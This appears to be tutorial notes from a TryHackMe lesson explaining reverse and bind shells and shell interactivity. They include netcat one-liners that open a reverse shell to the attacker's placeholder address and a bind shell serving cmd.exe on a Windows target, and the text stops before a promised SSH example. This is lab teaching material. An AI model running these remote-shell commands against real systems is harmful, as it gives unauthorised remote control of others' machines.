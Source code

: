 At a high level, we are interested in two kinds of shell when it comes to exploiting a target: Reverse shells, and bind shells.

Reverse shells
are when the target is forced to execute code that connects back to your computer. On your own computer you would use one of the tools mentioned in the previous task to set up a listener which would be used to receive the connection. Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell. This, however, will not be a problem on the TryHackMe network due to the method by which we connect into the network.

Bind shells 
are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.

Reverse Shell example:

    On the attacking machine:
        sudo nc -lvnp 443

    On the target:
        nc <LOCAL-IP> <PORT> -e /bin/bash

Bind Shell example:
we'll use a Windows target this time. First, we start a listener on the target -- this time we're also telling it to execute cmd.exe. Then, with the listener up and running, we connect from our own machine to the newly opened port.

    On the target:
        nc -lvnp <port> -e "cmd.exe"

    On the attacking machine:
        nc MACHINE_IP <port>

The final concept which is relevant in this task is that of interactivity. Shells can be either interactive or non-interactive.

Interactive: If you've used Powershell, Bash, Zsh, sh, or any other standard CLI environment then you will be used to
interactive shells. These allow you to interact with programs after executing them. For example, take the SSH login prompt:

Non-Interactive shells don't give you that luxury. In a non-interactive shell you are limited to using programs which do not require user interaction in order to run properly. Unfortunately, the majority of simple reverse and bind shells are non-interactive, which can make further exploitation trickier. Let's see what happens when we try to run SSH in a non-interactive shell:

